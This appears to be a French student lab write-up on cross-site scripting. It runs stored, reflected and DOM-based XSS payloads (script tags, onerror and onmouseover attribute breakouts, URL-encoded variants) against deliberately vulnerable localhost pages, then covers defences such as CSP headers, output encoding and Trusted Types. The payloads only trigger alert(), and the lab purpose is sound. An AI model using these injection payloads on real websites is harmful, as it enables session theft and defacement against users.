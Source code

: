 # TP2

**Question 1 : Perform a store XSS attack to [guestbook.php](http://localhost:8080/tp2/ressources/guestbook.php). Defend this with a CSP header.**

**Script : [tp2/ressources/guestbook.php (localhost live)](http://localhost:8080/tp2/ressources/guestbook.php) | [tp2/ressources/guestbook.php (code)](/src/tp2/ressources/guestbook.php)**

**Deux manières de le faire :**

En marquant en message le code suivant :

```html
<script>alert('xss')</script>
```

On inscrit dans `messages.txt` notre XSS.

**Seconde manière : On peut aussi le faire manuellement directement via le fichier PHP qui s'en occupe :**

Il faut rentrer dans le champ input de la page web du code JavaScript à exécuter dans une balise script.  
Le navigateur va contacter un autre script avec la valeur de l'input dans le paramètre "message".

```bash
http://localhost:8080/tp2/ressources/guestbookleavemessage.php?message=<script>alert('xss')</script>
```

Le champ de l'utilisateur va être stocké côté serveur.  
Nous permettant de réaliser une XSS stored. Lorsque l'utilisateur va recharger la page `tp2/guestbook.php`, le contenu du fichier va être récupéré et le code contenu à l'intérieur va être exécuté.

Pour mettre en place le *CSP  header* (Content Security Policy) sur le script PHP. Il faut rajouter le code php suivant au début du script.

```php
header("Content-Security-Policy: script-src 'self'");
```

Maintenant le client va exécuter que les balises script qui ont pour origine celui du serveur, donc localhost.

Résultat :

- [tp2/mycode/guestbook_csp_header.php (localhost live)](http://localhost:8080/tp2/mycode/guestbook_csp_header.php)
- [tp2/mycode/guestbook_csp_header.php (code)](/src/tp2/mycode/guestbook_csp_header.php)

---

**Question 2 : xssme.php perform all the attacks and generate protectedxssme.php to defend.**  
**Do htmlentities or htmlspecialchars work in every context of [xssme.php](http://localhost:8080/tp2/ressources/xssme.php)? If not, explain and correct.**

**Script : [tp2/ressources/xssme.php (localhost live)](http://localhost:8080/tp2/ressources/xssme.php) | [tp2/ressources/xssme.php (code)](/src/tp2/ressources/xssme.php)**

Paramètre : htmlcontext

```bash
htmlcontext=<script>alert('xss');</script>
htmlcontext=%3Cscript%3Ealert(%22xss%22)%3C/script%3E
```

<http://localhost:8080/tp2/ressources/xssme.php?htmlcontext=%3Cscript%3Ealert(%22xss%22)%3C/script%3E>

Paramètre : attributecontext1

```bash
attributecontext1='' onerror=alert('xss')
attributecontext1=%27%27%20onerror=alert(%22xss%22)
```

<http://localhost:8080/tp2/ressources/xssme.php?attributecontext1=%27%27%20onerror=alert(%22xss%22)>

Paramètre : attributecontext2

```bash
attributecontext2="" onerror=alert('xss')
attributecontext2=%22%22%20onerror=alert(%22xss%22)
```

<http://localhost:8080/tp2/ressources/xssme.php?attributecontext2=%22%22%20onerror=alert(%22xss%22)>

Paramètre : attributecontext3

```bash
attributecontext3='' onerror=alert('xss')
attributecontext3=%27%27%20onerror=alert(%27xss%27)
```

<http://localhost:8080/tp2/ressources/xssme.php?attributecontext3=%27%27%20onerror=alert(%27xss%27)>

Paramètre : scriptcontext

```bash
scriptcontext=alert('xss')
scriptcontext=alert(%22xss%22)
```

<http://localhost:8080/tp2/ressources/xssme.php?scriptcontext=alert(%22xss%22)>

Paramètre : attributecontextonerror

```bash
attributecontextonerror=alert('xss')
attributecontextonerror=alert(%22xss%22)
```

<http://localhost:8080/tp2/ressources/xssme.php?attributecontextonerror=alert(%22xss%22)>

**Défenses :**

Il faut mettre en place le CSP sur le script-src avec pour valeur self.

```php
header("Content-Security-Policy: script-src 'self'");
```

Un autre moyen est d'encoder les inputs utilisateurs avec des fonctions d'encoding comme htmlentities et htmlspecialchars en php.

Résultat :

- [tp2/mycode/protectedxssme.php (localhost live)](http://localhost:8080/tp2/mycode/protectedxssme.php)
- [tp2/mycode/protectedxssme.php (code)](/src/tp2/mycode/protectedxssme.php)

**Question 3 : Write code to defend and attack for each of the contexts described for XSS and DOM-XSS in the OWASP cheatsheets.**

Exploitation XSS sur les différents scripts :

**Script : [tp2/ressources/domxss4.html (localhost live)](http://localhost:8080/tp2/ressources/domxss4.html) | [tp2/ressources/domxss4.html (code)](/src/tp2/ressources/domxss4.html)**

```bash
x=<script>alert('xss');</script>
x=%3Cscript%3Ealert(%22xss%22)%3C/script%3E
```

<http://localhost:8080/tp2/ressources/domxss4.html?x=%3Cscript%3Ealert(%22xss%22)%3C/script%3E>

**Script : [tp2/ressources/domxss5.html (localhost live)](http://localhost:8080/tp2/ressources/domxss5.html) | [tp2/ressources/domxss5.html (code)](/src/tp2/ressources/domxss5.html)**

Mettre une balise script dans l'input ne fonctionne pas, car dans la spécification de HTML :  
"a `<script>` tag inserted with `innerHTML` should not executed."  
(Source : [Element: innerHTML property - Web APIs | MDN (mozilla.org)](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML))

Le moyen est donc d'injecter du code javascript, mais sans utiliser une balise script.  
L'une des manières de faire est d'utiliser une balise img.

```bash
<img src='' onerror=alert('xss');>
```

**Script : [tp2/ressources/domxss6.html (localhost live)](http://localhost:8080/tp2/ressources/domxss6.html) | [tp2/ressources/domxss6.html (code)](/src/tp2/ressources/domxss6.html)**

`window.location.hash` permet de récupérer les fragments qui sont spécifiés dans l'url par l'utilisateur c'est-à-dire, l'ensemble des paramètres spécifiés après le caractère `#`.

```txt
http://localhost:8080/tp2/ressources/domxss6.html#myhash'onmouseover='alert(1)
```

Note : on ne peut pas encoder les caractères `"` et `'` avec des `%22` et `%27` car le navigateur va les décoder et les interpréter comme les trois caractères et pas leur valeur encodée.

Le code javascript s'exécute lorsque l'utilisateur clique sur la balise input.

**Défenses contre XSS :**

- Utiliser le mécanisme CSP
- Encoder les inputs utilisateurs en caractères html

**Défenses contre XSS-DOM :**

- Utiliser le mécanisme de CSP
- Encoder les inputs utilisateurs en caractères html
- Utiliser l'API Trusted Types ([Trusted Types API - Web APIs | MDN (mozilla.org)](https://developer.mozilla.org/en-US/docs/Web/API/Trusted_Types_API))
- Utiliser le mode strict de javascript (`"use strict";` en première ligne de chaque fichier JavaScript ([Strict mode - JavaScript | MDN (mozilla.org)](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Strict_mode))
- Ne pas utiliser innerHTML sur des inputs non vérifiés et utilisé plutôt à la place innerText.

**Question 4 : Investigate how to use Trusted types for DOM-XSS and the new attack.**

[Untrusted types: Researcher demos trick to beat Trusted Types protection in Google Chrome | The Daily Swig](https://portswigger.net/daily-swig/untrusted-types-researcher-demos-trick-to-beat-trusted-types-protection-in-google-chrome)

**Fonctionnement de la Trusted types API :**

La trusted types API permet de forcer la validation des chaines de caractères employées pour l'utilisation des fonctions constituant des "injections sinks".  
Les injections sinks sont des fonctions qui insèrent du HTML dans le document, des fonctions qui créent un nouveau document de même origine avec un balisage contrôlé par l'appelant, des fonctions qui exécutent du code et des setteurs pour les attributs d'éléments qui acceptent une URL pour charger ou exécuter du code.

Si l'utilisateur utilise une string au lieu d'un trusted type fourni par une fonction de validation définie dans un objet TrustedTypePolicyFactory, l'utilisateur va recevoir une "TypeError".

**L'attaque : CVE-2022-1494.**

Il n'y a pas beaucoup d'information sur la vulnérabilité, à l'exception que le problème vient "d'une validation insuffisante des données dans Trusted Types dans Google Chrome avant la version 101.0.4951.41 permettait à un attaquant distant de contourner les trusted types policies via une page HTML élaborée."

Source : [NVD - CVE-2022-1494 (nist.gov)](https://nvd.nist.gov/vuln/detail/CVE-2022-1494)
